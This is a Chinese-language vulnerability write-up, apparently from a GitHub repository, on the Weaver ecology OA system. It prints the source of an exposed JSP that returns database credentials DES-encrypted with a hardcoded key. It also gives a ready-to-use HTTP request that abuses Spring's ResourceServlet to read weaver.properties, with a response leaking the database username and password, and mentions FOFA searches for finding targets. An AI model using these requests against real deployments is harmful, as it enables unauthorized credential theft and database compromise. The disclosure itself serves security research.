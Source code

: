 
# 泛微ecology OA系统接口存在数据库配置信息泄露漏洞

## /mobile/DBconfigReader.jsp

` http://x.x.x.x:8090/mobile/DBconfigReader.jsp`

![](./dbconfig.png)

![](./fofa.png)

## Fortify 代码审计 检测出-弱加密算法
![](./Fortify.jpg)

`SecretKey key = SecretKeyFactory.getInstance("DES").generateSecret(dks1);`

```
<%@ page language="java" contentType="text/html; charset=UTF-8"%>
<%@ page import="weaver.file.Prop" %>
<%@ page import="javax.crypto.spec.DESKeySpec" %>
<%@ page import="javax.crypto.*" %>
<%
	String conStr=Prop.getPropValue("weaver","ecology.url");
	String conUser=Prop.getPropValue("weaver","ecology.user");
	String conPsw=Prop.getPropValue("weaver","ecology.password");
	String loginType=Prop.getPropValue("weaver","authentic");
//	StringBuffer sb = new StringBuffer();
//	sb.append("url="+conStr+",");
//	sb.append("user="+conUser+",");
//	sb.append("password="+conPsw);
	String sb="url="+conStr+",user="+conUser+",password="+conPsw+",logintype="+loginType;
 	byte[]  str = sb.getBytes();
	String keyString = "1z2x3c4v5b6n";
	byte[] keyByte = keyString.getBytes();
	// 创建一个密匙工厂，然后用它把DESKeySpec对象转换成一个SecretKey对象
	DESKeySpec dks1 = new DESKeySpec(keyByte);
    SecretKey key = SecretKeyFactory.getInstance("DES").generateSecret(dks1);
	Cipher cipher = Cipher.getInstance("DES");
	cipher.init(Cipher.ENCRYPT_MODE, key);  
	byte[] cipherText = cipher.doFinal(str);
	//System.out.println(cipherText.length);
	ServletOutputStream sos = response.getOutputStream();
	sos.write(cipherText);
	sos.flush();
	sos.close();
%>
```

## 文件读取漏洞 org.springframework.web.servlet.ResourceServlet

https://docs.spring.io/spring/docs/3.0.x/javadoc-api/org/springframework/web/servlet/ResourceServlet.html

泛微-数据库配置文件：`/WEB-INF/prop/weaver.properties`

```
GET /weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/prop/weaver.properties HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Server: Resin/3.1.8
Cache-Control: private
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
Set-Cookie: ecology_JSessionId=xxxxxx; path=/
Content-Length: 609
Connection: close
Date: Mon, 13 Jul 2020 08:13:13 GMT

ecology.overtime=60
DriverClasses = com.microsoft.jdbc.sqlserver.SQLServerDriver
ecology.url=jdbc\:sqlserver\://127.0.0.1\:1433;DatabaseName\=ecology
ecology.maxconn=300
ecology.user=sa
ecology.password=123456
ecology.charset=ISO
LOG_FORMAT=yyyy.MM.dd'-'hh\:mm\:ss
ecology.isgoveproj=0
DEBUG_MODE=false
```
